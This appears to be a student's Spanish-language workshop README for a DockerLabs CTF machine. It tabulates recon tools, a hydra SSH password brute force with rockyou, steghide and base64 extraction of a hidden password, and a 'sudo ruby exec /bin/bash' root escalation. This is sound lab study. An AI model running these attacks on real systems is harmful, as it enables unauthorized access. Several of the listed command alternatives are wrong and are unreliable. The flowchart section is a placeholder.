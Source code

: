 # Taller de Electiva - Maestría en Ciberseguridad
:imp::rotating_light::skull:MY. GÓMEZ ORTEGA MARIO FRANCISCO:skull::rotating_light::imp:
![imagen 1 hacker taller MFGO](https://media1.tenor.com/m/z5yrWHMWfF8AAAAd/hacker-hack.gif)

Este taller tiene como objetivo desarrollar los puntos del taller de DOCKERLABS:

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

---

## 1. Herramientas empleadas en el taller de DockerLabs:

| HERRAMIENTA | DEFINICION                                                                                   | FUNCIONALIDAD                                         | EJEMPLOS DE USO                                                                                    |   |
|-------------|----------------------------------------------------------------------------------------------|-------------------------------------------------------|----------------------------------------------------------------------------------------------------|---|
| SCP         | Secure Copy Protocol: protocolo para copiar archivos entre máquinas remotas de forma segura. | Transferencia de archivos entre equipos mediante SSH. | Copiar archivos desde host a Kali Linux. Ej: `scp -r amor kali@192.168.1.12:/home/kali/Documents/` |   |
| Docker      | Plataforma de contenedores para ejecutar aplicaciones aisladas.                              | Despliegue de entornos vulnerables para prácticas.    | Ejecutar DVWA, desplegar laboratorio 'amor.tar'                                                    |   |
| Unzip       | Herramienta para descomprimir archivos .zip.                                                 | Extraer contenido de laboratorios comprimidos.        | `unzip nombre_maquina.zip`                                                                         |   |
| Netdiscover | Escáner ARP para descubrir dispositivos activos en la red.                                   | Detectar IP de contenedores en red Docker.            | `sudo netdiscover -i docker0 -r 172.17.0.0/24`                                                     |   |
| Nmap        | Network Mapper: escáner de red y puertos.                                                    | Identificar servicios y puertos abiertos.             | `nmap --min-rate 5000 -p- -sS -sV 172.17.0.2`                                                      |   |
| Gobuster    | Herramienta de fuerza bruta para encontrar rutas/directorios en servidores web.              | Fuzzing de directorios ocultos.                       | `gobuster dir -u http://IP/ -w wordlist.txt`                                                       |   |
| Hydra       | Herramienta para ataques de fuerza bruta contra servicios como SSH.                          | Crackear contraseñas por diccionario.                 | `hydra -l usuario -P diccionario ssh://IP`                                                         |   |
| SSH         | Secure Shell: protocolo seguro para conexión remota.                                         | Acceso remoto a sistemas Linux.                       | `ssh carlota@172.17.0.2`                                                                           |   |
| Steghide    | Herramienta para ocultar y extraer información de imágenes.                                  | Realizar esteganografía.                              | `steghide --extract -sf imagen.jpg`                                                                |   |
| Base64      | Sistema de codificación para datos binarios en texto ASCII.                                  | Decodificación de texto escondido.                    | `echo 'base64text' \| base64 -d`                                                                   |   |

---

## 2. Comandos empleados en el Taller de DockerLabs.

### ¿Por qué instalar Docker en Kali?

| COMANDO                                                                                            | EXPLICACIÓN DESGLOCE                                                                              | ALTERNATIVA 1                       | ALTERNATIVA 2                           | ALTERNATIVA 3                                                 |
|----------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------|-------------------------------------|-----------------------------------------|---------------------------------------------------------------|
| scp -r amor kali@192.168.1.12:/home/kali/Documents/                                                | `scp`: copia segura, `-r`: recursivo, `amor`: carpeta origen, `kali@...`: destino.                | scp archivo usuario@IP:/ruta/       | rsync -avz archivo usuario@IP:/ruta/    | sftp usuario@IP                                               |
| sudo apt install docker.io                                                                         | `sudo`: privilegios, `apt install`: instala paquete, `docker.io`: paquete de Docker.              | apt-get install docker.io           | snap install docker                     | curl \| bash (instalador oficial)                             |
| ./auto_deploy.sh amor.tar                                                                          | `./`: ejecutar script local, `auto_deploy.sh`: script de despliegue, `amor.tar`: archivo del lab. | bash auto_deploy.sh                 | sh auto_deploy.sh                       | chmod +x auto_deploy.sh && ./auto_deploy.sh                   |
| ip add                                                                                             | Muestra interfaces y direcciones IP del sistema.                                                  | ip a                                | ifconfig                                | hostname -I                                                   |
| sudo netdiscover -i docker0 -r 172.17.0.0/24                                                       | `-i`: interfaz, `docker0`: red virtual, `-r`: rango objetivo.                                     | arp-scan -l                         | nmap -sn 172.17.0.0/24                  | ip neigh                                                      |
| sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2                                                   | `--min-rate`: velocidad, `-p-`: todos los puertos, `-sS`: SYN scan, `-sV`: detectar versión.      | nmap -A IP                          | nmap -T4 -p 1-65535 IP                  | masscan -p1-65535 IP                                          |
| gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | `dir`: modo directorios, `-u`: URL, `-w`: diccionario de palabras.                                | ffuf -u URL/FUZZ -w wordlist        | dirb URL                                | dirsearch -u URL                                              |
| hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10                        | `-l`: login, `-P`: diccionario, `ssh://`:protocolo, `-t`: threads concurrentes.                   | medusa -u user -P pass -h IP -M ssh | ncrack -p 22 --user user -P wordlist IP | patator ssh_login host=IP user=USER password=FILE0 0=wordlist |
| scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor | Copia remota con `scp` desde usuario `carlota` al directorio destino local.                       | rsync -avz user@host:/path /destino | sftp user@host                          | wget scp://host/archivo                                       |
| steghide --extract -sf imagen.jpg                                                                  | Extrae información escondida de `imagen.jpg` usando Steghide.                                     | zsteg imagen.jpg                    | binwalk -e imagen.jpg                   | exiftool imagen.jpg                                           |
| echo "ZXNsYWNhc2FkZXBpbnlwb24=" \| base64 -d; echo                                                 | Decodifica texto base64, `-d`: decode.                                                            | base64 --decode                     | openssl enc -base64 -d                  | python3 -m base64                                             |
| sudo /usr/bin/ruby -e 'exec "/bin/bash"'                                                           | Ejecuta un shell `/bin/bash` con permisos elevados desde ruby.                                    | sudo ruby -e 'exec "/bin/bash"'     | ruby -rsystem -e 'system("/bin/bash")'  | echo 'bash' \| ruby                                           |
| file imagen.jpg                                                                                    | Identifica el tipo y formato de archivo, útil para análisis forense.                              | exiftool imagen.jpg                 | stat imagen.jpg                         | identify imagen.jpg                                           |

---


## 3. Diagrama de flujo del Taller DockerLabs

asdfasdf

---


